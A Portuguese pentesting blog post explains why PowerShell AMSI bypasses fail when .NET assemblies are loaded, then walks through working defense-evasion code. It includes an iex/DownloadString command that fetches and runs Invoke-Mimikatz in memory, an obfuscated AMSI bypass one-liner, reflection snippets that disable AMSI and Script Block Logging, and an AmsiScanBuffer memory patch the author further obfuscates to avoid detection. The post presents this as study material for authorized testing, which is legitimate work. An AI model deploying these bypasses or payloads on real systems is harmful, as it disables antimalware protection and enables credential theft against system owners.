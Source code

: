 ```yaml
---
title: Bypass de processos específicos de AMSI
author: H41stur
date: 2023-03-06 01:00:00 -0300
categories: [Estudos, AMSI Bypass]
tags: [AMSI, .NET, PowerShell]
image: "/img/posts/amsi.jpg"
alt: "Pentesting Android"
---
```


![Bypass de processos específicos de AMSI](/img/posts/amsi.jpg)


- [Introdução](#introdução)
- [*Bypass* de AMSI no Powershell](#bypass-de-amsi-no-powershell)
- [Diferença entre *Bypass* do AMSI do PowerShell e Processos Específicos do AMSI](#diferença-entre-bypass-do-amsi-do-powershell-e-processos-específicos-do-amsi)


## Introdução

AMSI (*Antimalware Scan Interface*) é uma interface de programação de aplicativos (API) do Windows que permite que os aplicativos antivírus e outros softwares de segurança possam detectar e impedir a execução de *malwares* e scripts maliciosos em tempo de execução.

A AMSI foi introduzida no Windows 10 e no Windows Server 2016 e, desde então, tem sido amplamente adotada por vários aplicativos antivírus e softwares de segurança. A AMSI fornece uma camada adicional de segurança ao sistema operacional, permitindo que os aplicativos de segurança detectem *malwares* que podem passar despercebidos pelos softwares antivírus tradicionais. Ela pode ser usada para detectar e bloquear scripts maliciosos em várias linguagens de programação, como PowerShell, VBScript e JavaScript, além de outras formas de *malwares* que podem estar escondidos em arquivos ou em comunicações de rede.

Contece que durante um teste em ambiente Windows, principalmente em *Active Directory* precisamos executar diversos scripts em PowerShell que, por muitas vezes, são considerados maliciosos (com razão) pelo AMSI. Para tanto é preciso uma forma de *bypass* deste mecanismo, a fim de "enganar" este sistema.

Existem vários métodos conhecidos, e funcionais disponíveis na internet, porém, nem todos são eficazes, pois o que é pouco divulgado, é fato de que, em algumas situações, existe mais de uma camada de AMSI para lidar.


## *Bypass* de AMSI no Powershell

Normalmente, para carregar um scrip PowerShell em memória para evitar detecção de arquivo malicioso por sntivírus, utilizamos a função `Invoke-Expression`, em casos normais, como por exemplo, importar o `Invoke-Mimikatz`, utilizamos da seguinte forma:

```powershell
iex(New-object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1')
```

Porém, o próprio AMSI do PowerShell reconhece este script como malicioso e geralmente nos retorna a seguinte mensagem:

![Detecção do AMSI](/img/posts/2023-03-06_16-19.png)

A mensagem `This script contains malicious content and has been blocked by your antivirus software.` é bem específica e nos mostra de forma clara que o AMSI considera o script como malicioso. Para tanto, existe uma infinidade de scripts públicos para o *bypass* do AMSI do PowerShell, além da possibilidade de tentar qualquer um disponível no [amsi.fail](https://amsi.fail/).

Podemos utilizar um comando comum como o abaixo para tentarmos efetuar o *bypass* como este:

```powershell
[ReF]."`A$(echo sse)`mB$(echo L)`Y"."g`E$(echo tty)p`E"(( "Sy{3}ana{1}ut{4}ti{2}{0}ils" -f'iUt','gement.A',"on.Am`s",'stem.M','oma') )."$(echo ge)`Tf`i$(echo El)D"(("{0}{2}ni{1}iled" -f'am','tFa',"`siI"),("{2}ubl{0}`,{1}{0}" -f 'ic','Stat','NonP'))."$(echo Se)t`Va$(echo LUE)"($(),$(1 -eq 1))
```

Este comando por sua vez, efetua o *bypass* do AMSI do PowerShell, nos permitindo importar o script em memória sem problemas, conforme abaixo.

![Bypass do AMSI no PwerShell](/img/posts/2023-03-06_16-39.png)

Porém, se tentarmos executá-lo, seremos apresentados a um novo erro.

![Erro na execução](/img/posts/2023-03-06_16-44.png)

```
Exception calling "Load" with "1" argument(s): "Could not load file or assembly '510976 bytes loaded from
Anonymously Hosted DynamicMethods Assembly, Version=0.0.0.0, Culture=neutral, PublicKeyToken=null' or one
of its dependencies. An attempt was made to load a program with an incorrect format."
```
Diferente da mensagem de erro anterior, esta não nos diz absolutamente nada que a relacione com o AMSI, só informa que o formato dos binários estão incorretos.

Porém `AINDA ESTAMOS LIDANDO COM O AMSI!`

Neste caso, efetuamos o *bypass* do AMSI para o PowerShell em si, porém a `[System.Reflection.Assembly]::Load($byteOutArray)` "triggou" o `AMSI-Scan` para o binário `.NET`.

## Diferença entre *Bypass* do AMSI do PowerShell e Processos Específicos do AMSI

Primeiramente é preciso entender como os processos conhecidos de *bypass* de AMSI funcionam, abaixo estão alguns dos métodos mais utilizados:

```powershell
# forçando um erro:
$mem = [System.Runtime.InteropServices.Marshal]::AllocHGlobal(9076)
[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiSession","NonPublic,Static").SetValue($null, $null);[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiContext","NonPublic,Static").SetValue($null, [IntPtr]$mem)

# Desabilitando o Script Logging:
$settings = [Ref].Assembly.GetType("System.Management.Automation.Utils").GetField("cachedGroupPolicySettings","NonPublic,Static").GetValue($null);
$settings["HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging"] = @{}
$settings["HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging"].Add("EnableScriptBlockLogging", "0")

# Matt Graebers Reflection method:
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

Basicamente o que estes *snippets* fazem, é desabilitar o PowerShell Script-Logging ou alteram os subvalores do *namespace* `System.Management.Automation`. O `System.Management.Automation` é basicamente o *namespace* raiz do PowerShell.

O que podemos entender, é que todas estas técnicas, são específicas para o PowerShell, e afetam apenas a interface de verificação antimalware para o código de script do próprio Powershell.

Portanto, mesmo alterando os subvalores do *namespace* `System.Management.Automation`, não iremos quebrar o `.NET AMSI-Scan`, pois este não está relacionado com o PowerShell.

Acontece que quando iniciamos uma chamada no PwerShell a `amsi.dll` é carregada em um novo processo para fazer o *hook* de qualquer entrada em linha de comando e analisar o conteúdo das chamadas para `[System.Reflection.Assembly]::Load()`. Portanto, uma das técnicas mais eficazes para o *bypass* do .NET AMSI-Scan, é com `memory patching` do `amsi.dll`. Um artigo completo sobre esta técnica pode ser encontrado [aqui](https://rastamouse.me/memory-patching-amsi-bypass/). Neste caso, a `[System.Reflection.Assembly]::Load()` não cria um novo processo, portanto, efetuar o `memory patching` resultara no *bypass* tanto do *script-code* do PowerShell quanto do .NET AMSI-Scan.

Abaixo o exemplo de *bypass*  sugerido no artigo:

```powershell
$Win32 = @"
using System;
using System.Runtime.InteropServices;
public class Win32 {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```

Na maior parte dos casos, este script é funcional, porém como o processo do .NET AMSI-Scan também procura por *strings*, como `amsi.dll`, `AmsiScanBuffer`, `Invoke-Mimikatz` entre várias outras, acredito que o script possa ser melhorado para "encodar" estas *strings*, podendo ficar da seguinte forma:

```powershell
$AQERT = @"
using System;
using System.Runtime.InteropServices;
public class AQERT {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $AQERT

$POCVBOIU = [AQERT]::LoadLibrary("$([SYstem.Net.wEBUtIlITy]::HTmldecoDE('&#97;&#109;&#115;&#105;&#46;&#100;&#108;&#108;'))")
$IMUNT = [AQERT]::GetProcAddress($POCVBOIU, "$([systeM.neT.webUtility]::HtMldECoDE('&#65;&#109;&#115;&#105;&#83;&#99;&#97;&#110;&#66;&#117;&#102;&#102;&#101;&#114;'))")
$p = 0
[AQERT]::VirtualProtect($IMUNT, [uint32]5, 0x40, [ref]$p)
$FGJT = "0xB8"
$CXWE = "0x57"
$LKAS = "0x00"
$QAWS = "0x07"
$YHNM = "0x80"
$PLMN = "0xC3"
$AZKIU = [Byte[]] ($FGJT,$CXWE,$LKAS,$QAWS,+$YHNM,+$PLMN)
[System.Runtime.InteropServices.Marshal]::Copy($AZKIU, 0, $IMUNT, 6)
```

Ao executermos este script, farmos um *bypass* "global" do AMSI, permitindo a execução do script sem erros.

![Bypass global do AMSI](/img/posts/2023-03-06_17-27.png)


## Referências

- [amsi.fail](https://amsi.fail)
- [AmsiScanBufferBypass](https://rastamouse.me/memory-patching-amsi-bypass/)
- [Bypass AMSI by manual modification](https://s3cur3th1ssh1t.github.io/Bypass_AMSI_by_manual_modification/)